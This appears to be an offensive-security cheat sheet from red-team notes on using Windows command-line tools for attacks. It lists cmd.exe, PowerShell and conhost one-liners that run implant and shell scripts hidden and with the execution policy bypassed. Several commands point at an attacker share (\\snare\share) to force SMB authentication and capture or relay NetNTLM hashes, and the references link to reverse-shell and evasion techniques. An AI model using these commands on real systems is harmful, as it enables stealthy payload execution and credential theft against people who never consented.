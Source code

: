 # Windows CLI Console

Search Tag(s): #weaponization #client-side-attacks #living-off-the-land #windows

## Command Prompt

Execute commands.

```
C:\> cmd.exe /c <commands>
```

```
C:\> cmd.exe - < [<drive_letter>:\]path\to\implant.bat
```

Execute command to perform SMB authentication relay.

```
C:\> echo 1 > //snare/share

C:\> pushd \\snare\share

C:\> cmd.exe /k \\snare\share

C:\> cmd.exe /c \\snare\share

C:\> start.exe \\snare\share

C:\> mkdir \\snare\share

C:\> type \\snare\share

C:\> dir \\snare\share

C:\> net view \\snare

C:\> MpCmdRun.exe -Scan -ScanType 3 -File \\snare\share\file.txt
```

TODO: Check the rest

```
find, findstr, [x]copy, move, replace, del, rename and many more!
```

## PowerShell

System32 is for 32-bit powershell payloads

```
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ex bypass -f file.ps1

C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f file.ps1
```

SysWOW64 is for 64-bit powershell payloads

```
C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -nop -ep bypass -f shell.ps1

C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -w hidden -nologo -noni -nop -ep bypass -f shell.ps1
```

### Execution Policy

```
PS C:\> Set-ExecutionPolicy Bypass -Scope <CurrentUser | Process> [-File C:\path\to\file.ps1
```

Execute cmdlet to perform SMB authentication relay.

```
C:\> Get-ChildItem \\snare\share

PS C:\> Resolve-DnsName -LlmnrOnly Snare 2> $Null
```

## Conhost

```
C:\> conhost --headless <commands>
```

```
C:\> conhost.exe--headless powershell.exe -noni -nop -ep bypass -file implant.ps1
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Callback Shells/One-Liners/Windows/Reverse Shells/Powershell|Callback Shells: Powershell]]

- [LOLBAS: Cmd](https://lolbas-project.github.io/lolbas/Binaries/Cmd/)

- [LOLBAS: Conhost](https://lolbas-project.github.io/lolbas/Binaries/Conhost/)

- [Mrd0x: Introduction to Parent-Child Process Evasion](https://mrd0x.com/introduction-to-parent-child-process-evasion/)

- [NetSPI: 15 Ways to Bypass the PowerShell Execution Policy](https://www.netspi.com/blog/technical-blog/network-penetration-testing/15-ways-to-bypass-the-powershell-execution-policy/)

- [r00t-3xp10it: CmdLine Scripts for Reverse TCP Shell Addicts](https://github.com/r00t-3xp10it/venom/wiki/CmdLine-%26-Scripts-for-reverse-TCP-shell-addicts)

- [Osanda: Places of Interest in Stealing NetNTLM Hashes](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/)